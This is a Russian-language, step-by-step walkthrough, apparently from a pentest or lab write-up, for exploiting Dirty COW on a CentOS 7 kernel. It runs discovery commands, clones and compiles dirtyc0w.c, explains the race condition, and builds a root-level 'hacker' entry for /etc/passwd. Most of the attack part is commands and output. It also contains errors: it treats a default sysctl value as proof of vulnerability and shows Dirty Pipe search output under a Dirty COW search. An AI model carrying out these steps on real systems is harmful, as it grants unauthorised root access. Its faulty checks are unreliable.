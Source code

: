 #### [TA0007] – Discovery (Разведка)
> Подтвердить наличие уязвимой версии ядра  

```bash
# 1. Определение версии ядра
uname -r  # 3.10.0-1127.el7.x86_64

# 2. Проверка значения dirty_writeback_centisecs (индикатор уязвимости)
cat /proc/sys/vm/dirty_writeback_centisecs  # Значение 500 подтверждает уязвимость

# 3. Поиск эксплоитов
searchsploit dirty cow
# Вывод: 
# Linux Kernel 2.6.22 < 4.8.3 - 'Dirty COW' /proc/self/mem Race Condition Privilege Escalation (SUID Method)
```
- `uname -r`: Определяет версию ядра (Уязвимые версии имеют патч-уровень ядра 2.6.22 < версия < 4.8.3)
- `dirty_writeback_centisecs`: контролирует частоту записи "грязных" страниц; значение 500 мс характерно для уязвимых систем
- `searchsploit`: ищет в локальной базе Exploit-DB  
  `grep -q 'Dirty COW' /usr/share/exploitdb/exploits/linux/local/*`: альтернативный вариант поиска

---

#### [TA0004] – Privilege Escalation (Повышение привилегий)
**Шаг 1: Подготовка эксплоита**  
```bash
# Поиск эксплоитов
searchsploit dirty cow
# Вывод:
# Linux Kernel 5.8 < 5.16.11 - 'Dirty Pipe' Pipe Mechanism Local Privilege Escalation

# Альтернативный вариант загрузки:
git clone https://github.com/dirtycow/dirtycow.github.io.git

# Компиляция найденного эксплойта
gcc dirtyc0w.c -o dirtyc0w
```
1. `mmap()`: Отображает защищенный файл (например, `/etc/passwd`) в память
2. Создает два потока используя **race condition**:
   - **Поток 1**: Бесконечный цикл, `madvise(MADV_DONTNEED)` принудительно выгружает память страницы из кэша
   - **Поток 2**: Запись в /proc/self/mem, `write()` в конкурентном потоке записывает данные в освобожденную область памяти
3. Результат: Перезапись защищенного файла (например, `/etc/passwd`)

**Шаг 2: Создание вредоносного файла**  
```bash
# Генерация пароля с солью (пароль: 123456) (SHA-512 хэш пароля)
openssl passwd -6 -salt xyz 123456  # $6$xyz$d5rAS...snip...X1

# Формирование записи для /etc/passwd
echo 'hacker:$6$xyz$d5rAS...snip...X1:0:0::/root:/bin/bash' > /tmp/passwd

# Валидация
stat -c "%a %n" /etc/passwd  # Должно быть 644
```
